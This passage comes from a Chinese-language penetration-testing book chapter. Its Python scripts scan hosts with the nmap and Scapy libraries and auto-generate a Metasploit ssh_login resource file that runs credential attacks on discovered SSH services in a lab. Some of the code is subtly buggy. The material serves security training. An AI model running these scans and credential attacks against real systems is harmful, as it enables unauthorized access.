    iface_dict = iface_addrs[0]
    link_dict = link_addr[0]
    hwaddr = link_dict.get('addr')
    iface_addr = iface_dict.get('addr')
    iface_broadcast = iface_dict.get('broadcast')
    iface_netmask = iface_dict.get('netmask')
    return hwaddr, iface_addr, iface_broadcast, iface_netmask
```

第四个，也是最后一个函数，从`get_gateways`函数提供的字典中确定接口的网关 IP。然后调用`get_addresses`函数来确定接口的其余详细信息。所有这些都被加载到一个以接口名称为键的字典中：

```py
def get_networks(gateways_dict):
    networks_dict = {}
    for key, value in gateways.iteritems():
        gateway_ip, iface = value[0], value[1]
        hwaddress, addr, broadcast, netmask  = get_addresses(iface)
        network = {'gateway': gateway_ip, 'hwaddr' : hwaddress, 
          'addr' : addr, 'broadcast' : broadcast, 'netmask' : netmask}
        networks_dict[iface] = network
    return networks_dict
```

### 注意

完整的脚本代码可以在[`raw.githubusercontent.com/funkandwagnalls/pythonpentest/master/ifacesdetails.py`](https://raw.githubusercontent.com/funkandwagnalls/pythonpentest/master/ifacesdetails.py)找到。

以下屏幕截图突出显示了此脚本的执行：



现在，我们知道这与扫描和识别目标没有直接关系，但是用于消除目标。这些目标是您的系统；一旦您开始自动评估一些系统，您将会发现您不希望您的系统出现在列表中。我们将重点介绍如何使用 Nmap 库扫描系统，识别可定位的服务，然后消除可能是我们系统的任何 IP 地址。

# Python 的 Nmap 库

Python 有库可以直接执行`nmap`扫描，可以通过交互式解释器或构建多功能攻击工具。例如，让我们使用`nmap`库来扫描我们本地 Kali 实例的**Secure Shell** (**SSH**)服务端口。确保服务已启动，执行`/etc/init.d/ssh start`命令。然后使用`pip install python-nmap`安装 Python 的`nmap`库。

现在，您可以直接使用库执行扫描，导入它们，并将`nmap.PortScanner()`分配给一个变量。然后可以使用实例化的变量来执行扫描。让我们在交互式解释器中执行一个示例扫描。以下是使用交互式 Python 解释器针对本地 Kali 实例进行`端口 22`扫描的示例：



正如您所看到的，这是一个可以根据需要调用的字典的字典。通过交互式解释器执行扫描需要更多的工作，但在您可能已经掌握了具有 Python 的环境中非常有用，并且它将允许您在参与过程中安装库。这样做的更大原因是编写将使有针对性的利用更容易的方法。

为了突出这一点，我们可以创建一个接受 CLI 参数的脚本，以扫描特定的主机和端口。由于我们从 CLI 接受参数，我们需要导入 sys 库，并且因为我们正在使用`nmap`库进行扫描，我们需要导入`nmap`。请记住，在导入 Python 中不是原生的库时使用条件处理程序；这样可以使工具的可维护性简单，并且更加专业。

```py
import sys
try:
    import nmap
except:
    sys.exit("[!] Install the nmap library: pip install python-nmap")
```

一旦库被导入，脚本可以设计参数要求。我们至少需要两个参数。这意味着如果参数少于两个或多于两个，脚本应该失败并显示帮助消息。请记住脚本名称算作第一个参数，所以我们必须将其增加到`3`。所需参数的结果产生以下代码：

```py
# Argument Validator
if len(sys.argv) != 3:
    sys.exit("Please provide two arguments the first being the targets the second the ports")
ports = str(sys.argv[2])
addrs = str(sys.argv[1])
```

现在，如果我们运行`nmap_scanner.py`脚本而没有任何参数，我们应该会收到错误消息，如下截图所示：



这是脚本的基本框架，您可以在其中构建实际的扫描器。这是一个非常小的组件，相当于实例化类，然后将地址和端口传递给它，然后打印出来：

```py
scanner = nmap.PortScanner()
scanner.scan(addrs, ports)
for host in scanner.all_hosts():
    if not scanner[host].hostname():
        print("The host's IP address is %s and it's hostname was not found") % (host)
    else:
        print("The host's IP address is %s and it's hostname is %s") % (host, scanner[host].hostname())
```

这个极小的脚本为您提供了快速执行必要扫描的手段，如下截图所示。这个测试显示了系统的虚拟接口，我已经用本地主机标识符和接口 IP 地址进行了测试。在使用本地主机标识符进行扫描时，有两件事需要注意：您将收到一个主机名。如果您扫描系统的 IP 地址而没有查询名称服务，您将无法识别主机名。以下截图显示了此脚本的输出：



### 注意

此脚本可以在[`raw.githubusercontent.com/funkandwagnalls/pythonpentest/master/nmap_scannner.py`](https://raw.githubusercontent.com/funkandwagnalls/pythonpentest/master/nmap_scannner.py)找到。

因此，这里的重大好处是现在您可以开始自动化系统的利用——到一定程度。这些类型的自动化应该相对温和，以便如果某些事情失败，它不会对环境的保密性、完整性或可用性造成损害或影响。您可以通过**Metasploit Framework 的远程过程调用**（**MSFRPC**）或通过自动构建可以执行的资源文件来执行此操作。例如，让我们简单地构建一个资源文件，该文件可以执行凭据攻击以检查默认的 Kali 凭据；您已经更改了它们，对吧？

我们需要通过编写类似于我们在 Metasploit 控制台中执行的命令的行来生成一个文件。因此，通过执行`search ssh_login`来查看 Metasploit 的`ssh_login`模块，然后在使用`msfconsole`加载控制台后显示选项。识别所需的选项。以下屏幕截图显示了可以设置的示例项目：



其中一些项目已经设置，但缺少的组件是远程主机的 IP 地址和我们将要测试的凭据。默认端口已设置，但如果您的脚本设计用于测试不同端口，则也必须设置。您会注意到凭据不是必需字段，但要执行凭据攻击，您确实需要它们。为此，我们将使用 Python 中的`write`函数打开并创建一个文件。我们还将将缓冲区大小设置为零，以便数据自动写入文件，而不是采用操作系统默认值将数据刷新到文件。

脚本还将创建一个单独的资源文件，其中包含它识别的每个主机的 IP 地址。运行此脚本的附加好处是它创建了一个启用 SSH 的目标列表。将来，您应该尝试构建不仅设计用于测试单个服务的脚本，但这是一个很好的开始示例。我们将建立在先前的脚本概念基础上，但再次构建函数以模块化它。这将使您更容易将其转换为类。首先，我们添加`ifacedetails.py`脚本和导入的库的所有函数。然后我们将修改脚本的参数代码，以便它接受更多参数：

```py
# Argument Validator
if len(sys.argv) != 5:
    sys.exit("[!] Please provide four arguments the first being the targets the second the ports, the third the username, and the fourth the password")
password = str(sys.argv[4])
username = str(sys.argv[3])
ports = str(sys.argv[2])
hosts = str(sys.argv[1])
```

现在构建一个函数，它将接受传递给它的详细信息，然后创建一个资源文件。您将创建包含必要值的字符串变量，这些值将被写入`ssh_login.rc`文件。然后使用先前提到的简单打开命令和相关的`bufsize`将详细信息写入文件中。现在文件中已经写入了字符串值。完成该过程后，关闭文件。请记住，当您查看`set_rhosts`值的字符串值时。请注意，它指向一个包含每行一个 IP 地址的文件。因此，我们需要生成此文件，然后将其传递给此函数：

```py
def resource_file_builder(dir, user, passwd, ips, port_num, hosts_file):
    ssh_login_rc = "%s/ssh_login.rc" % (dir)
    bufsize=0
    set_module = "use auxiliary/scanner/ssh/ssh_login \n"
    set_user = "set username " + username + "\n"
    set_pass = "set password " + password + "\n"
    set_rhosts = "set rhosts file:" + hosts_file + "\n"
    set_rport = "set rport" + ports + "\n"
    execute = "run\n"
    f = open(ssh_login_rc, 'w', bufsize)
    f.write(set_module)
    f.write(set_user)
    f.write(set_pass)
    f.write(set_rhosts)
    f.write(execute)
    f.closed
```

接下来，让我们构建实际的`target_identifier`函数，它将使用 nmap 库扫描使用提供的端口和 IP 的目标。首先，它清除`ssh_hosts`文件的内容。然后检查扫描是否成功。如果扫描成功，脚本将通过扫描识别的每个主机启动`for`查找。对于这些主机中的每一个，它加载接口字典并遍历键值对。

密钥保存接口名称，值是一个嵌入式字典，保存该接口的每个值的详细信息，映射到以前`ifacedetails.py`脚本中显示的命名键。`'addr'`键的值与扫描中的`host`进行比较。如果两者匹配，则主机属于评估者的盒子，而不是被评估的组织。当这种情况发生时，主机值设置为`None`，目标不会添加到`ssh_hosts`文件中。最后检查验证端口是否实际上是 SSH 端口并且是打开的。然后将该值写入`ssh_hosts`文件并返回给主函数。脚本不会阻止本地主机 IP 地址，因为我们留下它进行测试，并且要突出显示作为比较，如果您想包括这个功能，修改这个模块：

```py
def target_identifier(dir,user,passwd,ips,port_num,ifaces):
    bufsize = 0
    ssh_hosts = "%s/ssh_hosts" % (dir)
    scanner = nmap.PortScanner()
    scanner.scan(ips, port_num)
    open(ssh_hosts, 'w').close()
    if scanner.all_hosts():
        e = open(ssh_hosts, 'a', bufsize)
    else:
        sys.exit("[!] No viable targets were found!")
    for host in scanner.all_hosts():
        for k,v in ifaces.iteritems():
            if v['addr'] == host:
                print("[-] Removing %s from target list since it 
                    belongs to your interface!") % (host)
                host = None
        if host != None:
            home_dir="/root"
            ssh_hosts = "%s/ssh_hosts" % (home_dir)
            bufsize=0
            e = open(ssh_hosts, 'a', bufsize)
            if 'ssh' in scanner[host]['tcp'][int(port_num)]['name']:
                if 'open' in scanner[host]['tcp'][int(port_num)]['state']:
                    print("[+] Adding host %s to %s since the service is active on %s") % 
                        (host,ssh_hosts,port_num)
                    hostdata=host + "\n"
                    e.write(hostdata)
    if not scanner.all_hosts():
        e.closed
    if ssh_hosts:
        return ssh_hosts
```

现在脚本需要在执行之前设置一些默认值。最简单的方法是在参数验证器之后设置它们。查看您的脚本，在函数之外消除重复项（如果有的话），并在参数验证器之后放置以下代码：

```py
home_dir="/root"
gateways = {}
network_ifaces={}
```

脚本的最后一个更改是包含一个测试，以查看它是作为独立脚本执行还是作为导入模块执行。我们一直在执行这些脚本，但最好的做法是包含一个简单的检查，以便将脚本转换为类。这个检查的唯一作用是查看执行的模块的名称是否为`main`，如果是，那么它意味着它是一个独立的脚本。当这种情况发生时，它将`__name__`设置为`'__main__'`，表示独立脚本。

看一下以下代码，按照必要性的顺序执行相关函数。这是为了识别可利用的主机并将详细信息传递给资源文件生成器：

```py
if __name__ == '__main__':
    gateways = get_gateways()
    network_ifaces = get_networks(gateways)
    hosts_file = target_identifier(home_dir,username,
      password,hosts,ports,network_ifaces)
    resource_file_builder(home_dir, username, 
      password, hosts, ports, hosts_file)
```

您经常会在互联网上看到调用`main()`函数而不是一堆函数的脚本。这在功能上等同于我们在这里所做的，但是您可以创建一个`main()`函数，放在`if __name__ == '__main__':`上面，其中包含前面的细节，然后按照这里突出显示的方式执行它：

```py
if __name__ == '__main__':
    main()
```

通过这些小的改变，你可以根据扫描结果自动生成资源文件。最后，将脚本名称更改为`ssh_login.py`，然后保存并运行它。运行脚本时，它会生成配置和执行利用所需的代码。然后，您可以使用`-r`选项运行资源文件，如下面的截图所示。正如您可能已经注意到的，我进行了一次测试运行，包括我的接口 IP 地址，以突出显示内置的错误检查，然后对本地主机执行了测试。我验证了资源文件是否正确创建，然后运行它。



一旦进入控制台，您可以看到资源文件独自执行了攻击，并获得了以下结果。绿色的`+`符号表示在 Kali 盒子上打开了一个 shell。



资源文件也可以在 Metasploit 中使用`resource`命令调用，后面跟着文件名。对于这次攻击，可以使用以下命令调用资源`ssh_login.rc`，这将产生相同的结果。然后，您可以看到与使用`session -i <session number>`命令启动交互的新会话的交互。

以下截图显示了在 Kali 实例中验证用户名和主机名：



当然，你不会想对你的正常攻击盒这样做，但它提供了三个关键项目，它们需要被强调。始终更改默认密码；否则，即使在参与过程中，你也可能成为受害者。还要更改你的 Kali 实例主机名为一些防御性网络工具不会检测到的内容，并且始终在使用之前测试你的漏洞利用。

### 注意

有关 Python nmap 库的更多详细信息，请访问[`xael.org/norman/python/python-nmap/`](http://xael.org/norman/python/python-nmap/)。

现在，通过对 nmap、nmap 库和自动生成 Metasploit 资源文件的理解，你已经准备好开始学习 scapy 了。

### 注意

这个脚本可以在[`raw.githubusercontent.com/funkandwagnalls/pythonpentest/master/ssh_login.py`](https://raw.githubusercontent.com/funkandwagnalls/pythonpentest/master/ssh_login.py)找到。

# Python 的 Scapy 库

欢迎来到 Scapy，这是一个设计用于操纵、发送和读取数据包的 Python 库。Scapy 是那些具有广泛适用性的工具之一，但它可能看起来很复杂。在我们开始之前，有一些关于 Scapy 的基本规则需要理解，这将使创建脚本变得更容易。

首先，参考前面的部分，了解 TCP 标志及其在 Scapy 中的表示方式。你需要查看前面提到的标志及其相关位置来使用它们。其次，当 Scapy 接收到发送的数据包的响应时，标志由 TCP 头的第 13 个八位字节中的八进制格式的二进制位表示。因此，你必须根据这些信息来读取响应。

查看下表，它表示了每个标志的二进制位置值：


因此，当你从 TCP 数据包的响应中寻找特定类型的标志时，你必须进行计算。前面的表将帮助简化这一过程，但请记住，如果你曾经使用过或者使用过`tcpdump`，那么传输的材料是相同的。例如，如果你正在寻找一个 SYN 数据包，你会看到第 13 个八位字节的值为 2。如果是 SYN + ACK，它的值将是 18。只需将标志值相加，你就会得到你要找的内容。

接下来要记住的一件事是，如果你尝试 ping 回环接口或本地主机，数据包将不会被组装。这是因为内核拦截了请求，并通过系统的 TCP/IP 堆栈在内部处理。这是人们在使用 Scapy 时经常遇到的错误之一，他们经常因此放弃。因此，与其深入修复数据包以便它们能够到达你自己的 Kali 实例，不如启动你的 Metasploitable 实例或尝试测试你的默认网关。

### 提示

如果你想了解更多关于测试回环接口或本地主机值的信息，你可以在[`www.secdev.org/projects/scapy/doc/troubleshooting.html`](http://www.secdev.org/projects/scapy/doc/troubleshooting.html)找到解决方案。

因此，我们将重点介绍使用 Scapy 测试连接，然后扫描 Web 端口。你必须了解，Scapy 有多种发送和接收数据包的方法，取决于你想要提取的数据，可能不需要复杂的方法。首先，看看你想要实现什么。如果你想保持独立于操作系统，你应该使用`sr()`来处理第 3 层数据，使用`srp()`来处理第 2 层数据。接下来，如果方法在函数名后面但在`()`符号前面有`1`，比如`sr1()`，这意味着它只返回第一个答案。这通常足以实现大多数结果，但如果有多个数据包需要评估，你将需要放弃这些类型的方法。

接下来是`send()`方法，它使用操作系统默认的第 2 层和一些操作系统能力的第 3 层及以上。最后是`sendp()`，它使用自定义的第 2 层头部。这可以使用`Ether()`方法来表示以太网帧头部。这对于无线网络或基于理论安全性的**虚拟局域网**（VLAN）分割网络的地方非常有用。这是因为无线通信在第 2 层操作，VLAN 也在这一层被识别。

### 注意

基于 VLAN 的访问控制列表（ACL）被大多数评估者认为是一个烦恼的原因，而不是安全性。这是因为在大多数网络中，你可以通过操纵第 2 层帧的头部轻松地跳转网络段。随着经验的增加，你将经常在实际网络中看到这方面的例子。

所以，导入 Scapy 库，然后设置一个变量，其中包含你想要 ping 的目标 IP 地址。创建一个数据包，其中包含你想要发送到目标主机的通信细节和标志。然后设置一个响应变量来接收`sr1()`函数的结果：

```py
#!/usr/bin/env python
try:
    from scapy.all import *
except:
    sys.exit("[!] Install the scapy libraries with: pip install 
      scapy")
ip = "192.168.195.2"
icmp = IP(dst=ip)/ICMP()
resp = sr1(icmp, timout=10)
```



现在你看到你得到了一个答案，这意味着主机很可能是存活的。你可以通过以下测试来验证：

```py
if resp == None:
    print("The host is down")
else:
    print("The host is up")
```

当你测试这个时，你会看到 ping 扫描的结果是成功的，如下所示：



我们成功地 ping 了主机，并通过证明响应变量不为空来验证了它。从这里，我们现在可以检查它是否有一个开放的 web 端口。为了实现这一点，我们将执行一个 SYN 扫描。然而，在这样做之前，要明白当你从连接尝试中收到一个响应时，你会收到答案和未答案数据。所以，最好的做法是将它们分开，幸运的是，由于 Scapy 和 Python 的语法，这是非常容易的。你只需将响应传递给两个不同的变量，第一个是答案，第二个是未答案，如下所示：

```py
answers,unanswers = sr1(icmp, timout=10)
```

通过这个简单的改变，你现在可以清理数据返回，以便更容易操作。此外，你可以通过简单地在`answers`或`unanswers`后附加`.summary()`来从这些细节中获得摘要。如果你正在迭代从`0`到`1024`的端口列表，你可以通过将值按位置传递给`answers`变量来查看特定端口的具体结果。所以，如果你想要查看端口`80`的答案扫描结果，你可以像这样将值传递给列表：`answers[80]`。这些答案都包含了发送和接收的数据包，但这些可以像前面的例子一样进一步分割，如下面的代码所示：

```py
sent, received = answers[80]
```

请记住，这个例子只适用于端口`80`，因为你指定了你想要从中提取数据的位置。如果你没有将一个位置值传递给`answers`变量，你将把所有发送的数据包放在`sent`变量中，所有接收的数据包放在`received`变量中。

现在你已经列出了基本信息，你可以开发一个数据包，发送到目标，然后接收结果。在继续之前需要讨论的一件事是，从头开始构建一个数据包是多么容易，首先构建 IP 头部，然后是 TCP 头部。接下来，你将数据传递给扫描器，它会识别目标是存活还是不存活。你可以配置它，使之没有超时值，但我强烈不建议这样做，因为你可能永远等待而没有返回。下面的脚本是用来识别`192.168.195.1`主机，并确定 web 端口是否开放的：

```py
#!/usr/bin/env python
from scapy.all import *
ip = "192.168.195.1"
dst_port = 80
headers=IP(dst=ip)/TCP(dport=dst_port, flags="S")
answers,unanswers=sr(headers,timeout=10)

```

正如你在下面的截图中所看到的，系统做出了回应。前面的脚本可以独立运行，或者你可以使用交互式解释器执行每一行，就像这里所示的那样：



现在可以从`answers`变量中提取细节。请记住，这是一个列表，所以你应该递增每个值。发送的第一个数据包将由位置 0 表示，因此之后的每个位置表示原始数据包之后接收到的 IP 数据包：

```py
for a in answers:
    print(a[1][1].flags)
```

然而，列表中的每个值实际上是另一个包含更多数据的列表。在 Python 中，我们称之为矩阵，但不要担心！它很容易导航。首先，请记住我们使用了`sr()`函数，这意味着结果将来自第 3 层及以上。每个嵌套列表都是用于上面的协议；在这种情况下，它将是 TCP。我们执行了一个 SYN 扫描，因此我们正在寻找一个 SYN + ACK 响应。查看前面的部分来计算你要找的值。通过参考与 TCP 标志相关的前面部分，你会发现在头部中你要找的值是 18，以验证 SYN + ACK 响应，这可以通过添加`ACK = 16`的位置值和`SYN = 2`的位置值来计算。下面的截图显示了实际结果，显示端口是打开的。理解这些概念将使你能够在未来的脚本中使用 Scapy。



你现在对 Scapy 有了基本的了解，但不用担心！你还没有完成它。Scapy 具有相当多的功能，我们只是触及了一部分，并且它不仅可以执行简单的扫描，还可以操纵网络流量。许多嵌入式设备和工业控制系统使用独特的通信形式来为其他单元提供命令和控制。有时，当 nmap 被阻止时，你会意识到需要识别活动设备。Scapy 可以帮助你完成所有这些任务。

# 总结

在本章中，涵盖了关于在网络上识别活动主机、可行的目标以及不同通信模型的许多细节。为了帮助你理解协议以及它们的通信方式，我们讨论了它们在数据包和帧级别的不同形式。本章以使用 Python 的`nmap`和`Scapy`库自动利用主机来支持目标识别而告终。在下一章中，我们将在这些概念的基础上，看看如何利用字典、暴力和密码喷射攻击来利用服务。
